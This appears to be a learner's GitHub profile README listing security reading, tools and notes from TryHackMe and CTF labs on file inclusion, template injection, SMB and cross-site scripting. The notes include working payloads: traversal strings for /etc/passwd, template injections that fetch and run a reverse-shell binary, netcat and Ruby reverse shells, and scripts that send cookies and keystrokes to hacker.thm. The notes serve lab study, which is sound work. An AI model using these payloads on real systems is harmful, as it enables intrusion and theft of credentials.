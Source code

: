 ---

#   Computer Science, Cybersecurity, and Software Engineering

 <script src="https://tryhackme.com/badge/1210884"></script>

----- 

<details><summary>My Reading List & Resources</summary>

* Linux Basics for Hackers Getting Started with Networking, Scripting, and Security in Kali (OccupyTheWeb)
* Penetration Testing A Hands-On Introduction to Hacking (Weidman, Georgia)
* Becoming A Master Hacker (OccupyTheWeb)
* Competitive Programming in Python 128 Algorithms to Develop your Coding Skills (Christoph Dürr, Jill-Jênn Vie)
* Real-World Bug Hunting A Field Guide to Web Hacking (Peter Yaworski)
* Codecademy -> https://www.codecademy.com/profiles/JeremyLaratro
* TryHackme.com -> https://tryhackme.com/p/jeremylaratro
* HackTheBox.com -> 
* Hacktricks.xyz
* picoctf.org -> https://play.picoctf.org/users/jeremylaratro
* LeetCode -> https://leetcode.com/jeremylaratro/

</details>


----------
>Overview, Tools, and Pathways
Many tools exist for various different purposes when testing and exploiting systems. The tools necessary for to exploit any machine will vary but in most cases, begin in a similar fashion which is enumeration and reconnaissance. 
The following tools are ones which I have used for challenges, machines, and CTFs.

<details><summary>General Enumeration | Scanning | Reconnaissance</summary>

>>#### whatweb
>- This is often the first tool used to determine basic info about the web server (in cases where a domain is the given target) and to obtain the IP address.

>>####  Nmap  
>- Among the most commonly used tools, nmap allows one to scan the target machine and gain a great deal of information about it, including open ports, services, and even script execution.

>>####  wpscan  
>- If a wordpress site is identified, wpscan is extremely useful in finding potential vulnerabilities by enumerating plugins along with various other powerful features including bruteforce attacks if xmlrpc is enabled.

>>####  Nessus  
>- Nessus is an all-around vulnerability scanner and can help identify potential vulnerabilities and avenues of attack

>>####  OWASP Zap  
>- OWASP Zap is a GUI-based scanning tool that is focused on the OWASP top 10 vulnerabilities. This is another tool that can be useful in determining potential vulnerabilities.

>>####  Dig, dnsenum, and nslookup
>- These tools, along with various others, are useful in automating the process of DNS queries and can be extremely useful in reconnaissance of a website and in understanding the ownership and relationship between domain names and IPs.</details>

<details><summary>|Exploitation and Investigation Tools|</summary>

>There are thousands and thousands of different tools, scripts, and applications out there for all the various different attack types and vulnerabilities. The following are ones which I have personally used in labs and challenges and which I am at least fairly comfortable using.

>#### Web Based Exploitation
>>####  BURP Suite
>> - Powerful proxy -> intercept and modify requests, leading to a large variety of potential uses
>>####  SQLMap 
>> - SQLi scanner and exploitation tool
>>####  dirb, dirbuster, gobuster 
>> - Directory enumeration
>>####  ffuf, hydra 
>> - Web fuzzing, directory enumeration, account brute forcing
>>####  sstimap, lfimap 
>> - LFI and SSTI vulnerability scanner and exploitation tool
>>####  xsssniper
>> - XSS scanner and exploitation tool
>>####  rapidscan 
>> - Tool which essentially creates a suite of other popular exploitation tools like sqlmap, dirb, etc. 

>#### Network and Offline Exploitation
>>####  Metasploit
>> - Massive collection of known exploits, scripts, payloads, and database
>>####  hashcat
>> - GUI-accelerated password cracking tool. Extremely quick.
>>####  John the Ripper
>> - Another password cracking tool, particularly useful for it's auto-detection and john2'other' conversion scripts. 
>>####  cewl, crunch
>> - Custom password and wordlist generators

>#### Investigative Tools
>>####  Shodan
>> - Extremely powerful banner search engine. 
>>####  binwalk, exiftools, strings, cat
>> - Linux file analysis tools
</details>

<details><summary>Areas I'd Like to Improve</summary>

>####  Reverse Engineering
> - One of the areas I'd specifically like to improve in is reverse engineering, using tools like Ghidra and Apktool.
>####  Programming
> - Currently, I am most comfortable programming with Python, then Java, but would like to 
improve my C++ skills as I believe that understanding C++ and other lower-level 
languages improves on the greater understanding of underlying computer systems. I'd also like to 
learn more languages, in general. 
>#### SSTI and RCE
> - I would like to get less reliant upon tools when attempting to exploit SSTI and RCE vulnerabilities, and need
to improve my understanding of PHP and common web frameworks in order to be able to develop my own exploits.
</details>

----------

> Notes from labs, CTF's, and machine's on HackTheBox, TryHackMe, OWASP Juice Shop, etc.

<details><summary>Local File Inclusion and Remote File Inclusion Overview</summary>

># LFI

Notes from TryHackMe's LFI/RFI room. 

Local file inclusion is a vulnerability that can allow attackers to 
traverse the file system due to improperly or non-sanitized requests. 
This may allow an attacker to access sensitive files, ie /etc/passwd

Commonly used attack vector for LFI is '/../../'

````
get.php?file=../../../../etc/passwd
````

This allows traversal through layers of the directories to the root or target folder/directory. How many times depends on the specific system.
This can be determined by encouraging an error, ie:

````
 index.php?lang=jfbdsgd
 ````
 which then may return an error containing something along the lines of:

````
'..
 in /var/www/html/lab2.php on line 26'
 ````
 
 The presence of 4 layers can be derived from this, and thus, 4 levels can be used for the attack:

 ```
 index.php?lang=../../../../etc/passwd
 ```
 OS info can be derived as well:

```
 /get.php?file=../../../../boot.ini
 /get.php?file=../../../../windows/win.ini
 
 ```
 Sanitization and filter evasion:
 
 In PHP 5.3.3 and below, NULL bytes can be used to signify end of string and stop .php extension from being appended
 index.php?lang=../../../../etc/passwd%00
 
 Using a '.' can also be used to signify staying within the directory

````
 ../../../../etc/passwd/.
 ````
 Forced directory - if developer forces a directory, evasion is possible by understanding where that directory lies within the levels.
 Evasion may be as simple as adding an extra layer, ie:

````
 /../../../etc/passwd  --> /../../../../etc/passwd
 ````

 Burp suite can be used to evade any request filters that may filter or change characters
Try POST, GET 
If _REQUEST is being used, take advantage of cookies: 

````
POST /challenges////////////chall3.php HTTP/1.1
Host: 10.10.120.210
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.10.120.210/challenges///////////chall3.php?file=
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: =../../../etc/flag3
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 25

file=../../../etc/flag3%00
```` 

--------------------------

># RFI
 
RFI is similar to LFI but involves remote inclusion of files and potentially RCE. It depends on the function:
allow_url_fopen

Overview:
Payload is hosted on attackers servers -> payload injected via HTTP requests using include function -> payload is executed

````
GET /page.php?file=
lang=http://0.0.0.0/r.elf
````

````
O:8:"_construct":1:{s:4:"cookie";s:10:"Some data!";} 
````

Tools:

````
- lfimap
- lfitester
- vailyn
````

</details> 

<details><summary>Server-Side Template Injection - SSTI</summary>

Notes from SSTI Lab on TryHackMe.

Common test-cases:

````
{7*7}
{{7*7}}'
a{{bar}}b
{var} ${var} {{var}} <%var%> [% var %]

````

1.  Start local server.

````
python3 -m http.server 80

````
2. Test functionality of python server remotely using JS and curl.

````
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("curl http://10.10.16.5")}

10.10.16.5

````
3. Create reverse shell payload and initialize a netcat listener for it. 

````
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.5.0.2 LPORT=5010 -f elf > r.elf

nc -lvnp 443

````
4. Perform the SSTI, getting RCE on the server.

````
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("wget 10.5.0.2:5003/r.elf")}

*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("chmod 777 ./r.elf")}

*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("./r.elf")}

*{os.system("nc -e /bin/sh 10.10.16.5 5010")}
<%=system("ruby%20-rsocket%20-e%27spawn%28%22sh%22%2C%5B%3Ain%2C%3Aout%2C%3Aerr%5D%3D%3ETCPSocket.new%28%2210.5.0.2%22%2C5007%29%29%27")%>
````

Tools:

````

- sstimap

````

</details>

<details><summary>SMB Exploitation</summary>

SMB- server message block
* Notes from TryHackMe's SMB room

Enumeration / Recon:
SMB uses port 445
A common service name is 'microsoft-ds'
After enumerating the system and finding a potential SMB exploitation pathway:
Further enumerate the SMB service using smbclient:

````

smbclient -L ip 

````

* Share names will be listed

	
Check for the guest or anonymous login, ie:
Sharenames:

````
ADMIN$
C$
WorkShares
````

After identifying potentially vulnerable share, attempt login:

````
smbclient \\\\ip\\<share>>
````

Upon entry --> 
* browse directories, look for sensitive files
* potential path traversal, pivot to other shares


</details>

<details><summary>XSS</summary>

XSS
Cross site scripting
Injection attack where a malicious payload can be injected into a web page and potentially result in an attacker getting user, staff, or other sensitive data

Check
	
~~~
<script>alert('XSS');</script>
~~~
	
Session stealing:
	
~~~
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
~~~
Key loggger:
	
~~~
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
~~~
	

Business Logic 
	
~~~
<script>user.changeEmail('attacker@hacker.thm');</script>
~~~

#### Stored
Stored XSS is XSS where a payload is injected into a webpage, and stored at the server level, resulting in that malicious code's presentation to other users of the site. This allows for various serious threats. 
Attack Vectors:
Comments on a blog
User profile information
Website Listings


#### Reflected
Reflected XSS, on the other hand, is XSS where the payload is reflected only on the page instance itself. Attackers must send a link to the altered page to a victim to take advantage of reflected XSS, as it is not stored at the server level.
Attack Vectors:
Parameters in the URL Query String
URL File Path 

	
#### DOM
DOM-based XSS depends on JS code executing locally and not server-side. This allows for an attacker to exploit specific JS function and then, like reflected XSS, send a link with the malicious code injected. Requires a deeper level of JS to exploit. 
Attack Vectors:
eval()

	
#### Blind
Blind XSS is XSS where malicious code is presented to other users, as in stored XSS, however you are unable to see it. In order for attackers to take advantage of this XSS, an HTML callback is incorporated into the payload.


Evasion:
	
~~~
"><script>alert(1);</script>
~~~
	
Close tag of encapsulating div:
	
~~~
</textarea><script>alert(1);</script>
~~~
	
Filter evasion:
Filter for 'script' --> sscriptcript
	
~~~
<sscriptcript>alert(1);</sscriptcript>
~~~
	
Within an image:
	
~~~
/images/cat.jpg" onload="alert(1);
~~~
	
Tools:
	
````
	
- xsshunter
- xsssniper
- xssstealer
- garud
- 0d1n
````

</details>

